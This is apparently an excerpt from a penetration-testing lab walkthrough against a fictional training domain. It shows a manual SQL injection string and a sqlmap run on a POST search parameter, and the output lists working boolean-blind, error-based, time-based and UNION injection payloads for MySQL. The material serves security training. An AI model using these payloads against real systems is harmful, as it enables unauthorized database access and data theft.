 **SQL Injection**

```sql
' OR 1=1 -- -
```

![Firefox - SQLi](./assets/screenshots/attacking_enterprise_networks_external_testing_20.png)

```
┌──(nabla㉿kali)-[~]
└─$ sqlmap --url=http://status.inlanefreight.local -X POST --data='searchitem=test*' --batch

[SNIP]

sqlmap identified the following injection point(s) with a total of 45 HTTP(s) requests:
---
Parameter: #1* ((custom) POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: searchitem=fedex' AND 1161=1161#

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: searchitem=fedex' AND GTID_SUBSET(CONCAT(0x716b6a7671,(SELECT (ELT(6568=6568,1))),0x7171707871),6568)-- XYoN

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: searchitem=fedex' AND (SELECT 8682 FROM (SELECT(SLEEP(5)))Ozww)-- DbqC

    Type: UNION query
    Title: MySQL UNION query (NULL) - 4 columns
    Payload: searchitem=fedex' UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x716b6a7671,0x527943534a62546663584d6c4b47475278534872526579775a6946434e58696d6f77446446484a69,0x7171707871)#
---

[SNIP]

[08:45:31] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 20.04 or 20.10 or 19.10 (eoan or focal)
web application technology: PHP, Apache 2.4.41
back-end DBMS: MySQL >= 5.6
```
